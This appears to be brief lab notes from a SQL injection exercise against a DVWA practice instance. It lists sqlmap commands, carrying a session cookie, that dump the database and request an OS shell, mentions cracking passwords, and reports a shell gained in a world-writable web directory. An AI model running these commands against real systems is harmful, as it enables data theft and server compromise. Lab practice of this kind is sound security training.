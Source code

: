 sqlmap -u "http://34.171.165.162:8000/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=4ae7cff151a35773cb6253368001f1f6" --dump --fresh-queries --os-shell

sqlmap -r dvwa.txt --cookie="security=low; PHPSESSID=4ae7cff151a35773cb6253368001f1f6" --dump 

Crack passwords

sqlmap -r dvwa.txt --cookie="security=high; PHPSESSID=4ae7cff151a35773cb6253368001f1f6" --dump --fresh-queries --os-shell


Got the os-shell at /var/www/dav (has permissions: drwxrwxrwt  2 root     root      4096 May 20  2012 dav)
